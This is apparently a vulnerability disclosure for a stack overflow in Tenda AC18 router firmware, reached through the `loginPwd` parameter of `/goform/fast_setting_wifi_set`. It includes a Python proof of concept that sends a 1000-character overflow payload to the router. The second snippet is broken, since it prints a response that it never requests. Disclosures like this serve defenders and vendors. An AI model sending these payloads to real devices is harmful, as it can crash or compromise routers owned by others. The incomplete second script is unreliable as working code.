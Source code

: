## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/fast_setting_wifi_set` url. The `v17` variable receives the `loginPwd` parameter from a POST request and is stored in the configuration item named `sys.userpass` through the SetValue function.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926134827340.png)

`sys.userpass` configuration item can  be retrieved through the GetValue function in the `/goform/SysToolChangePwd` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926140216339.png)

## PoC

first SetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/fast_setting_wifi_set"
payload = "a"*1000

data = {"ssid": "Tenda_66AE80","wrlPassword": "cardtable","loginPwd":payload}
response = requests.post(url, data=data)
print(response.text)
```

second GetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SysToolChangePwd"

print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)
